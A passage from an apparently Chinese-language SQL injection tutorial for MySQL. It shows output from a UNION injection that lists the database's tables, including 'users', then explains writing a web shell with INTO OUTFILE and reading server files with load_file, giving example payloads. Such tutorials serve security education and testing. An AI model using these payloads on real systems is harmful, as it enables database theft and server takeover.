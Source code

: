 ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: SCHEMA_PRIVILEGES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: SESSION_STATUS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: SESSION_VARIABLES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: STATISTICS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: TABLES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: TABLE_CONSTRAINTS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: TABLE_PRIVILEGES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: TRIGGERS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: USER_PRIVILEGES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: VIEWS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: guestbook
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: users
Surname: 1
```

#### 攻击向量
##### 写在一个文件中
如果连接数据库使用的用户有```FILE```权限，且单引号不会被过滤，那么```inot outfile```这种字句就可能被用于导出查询结果到一个文件。SQL语句例如：```Select * from table into outfile '/tmp/file'```

注意：无法绕过文件名周围的单引号。因此，如果对单引号（例如转义）进行了一些清理，```\'```将无法使用“ into outfile”子句。

这种攻击可用作带外技术，以获取有关查询结果的信息或编写可在Web服务器目录中执行的文件。

Example:

```1 limit 1 into outfile '/var/www/root/test.jsp' FIELDS ENCLOSED BY '//'  LINES TERMINATED BY '\n<%jsp code here%>';```

Results are stored in a file with rw-rw-rw privileges owned by MySQL user and group.

Where /var/www/root/test.jsp will contain:

```//field values// <%jsp code here%>```

##### 从文件中读

```Load_file```是一个能读文件的mysql内置文件，在有文件系统权限时可以使用。如果连接用户有文件权限，他可能使用某个文件的内容，如果单引号被限制，那么可以使用之前讨论的方法进行绕过。
```load_file('filename')```

#### 标准SQL注入攻击

```
